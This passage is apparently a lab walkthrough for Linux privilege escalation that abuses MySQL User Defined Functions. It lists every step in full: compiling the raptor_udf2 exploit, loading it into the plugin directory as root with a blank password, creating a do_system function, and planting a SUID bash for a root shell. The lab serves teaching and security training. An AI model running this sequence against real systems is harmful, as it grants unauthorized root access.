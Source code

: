 The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

**Change into the /home/user/tools/mysql-udf directory:**
```python
cd /home/user/tools/mysql-udf
```

**Compile the raptor_udf2.c(comes from popular exploit link) exploit code using the following commands:
```python
gcc -g -c raptor_udf2.c -fPIC   
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

**Connect to the MySQL service as the root user with a blank password:**
```python
mysql -u root
```

**Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:**
```python
use mysql;   
create table foo(line blob);   
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   create function do_system returns integer soname 'raptor_udf2.so';
```

**Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:**
```python
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

**Exit out of the MySQL shell (type exit or `\q` and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:**
```python
/tmp/rootbash -p
```

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**
```python
rm /tmp/rootbash   
exit
```


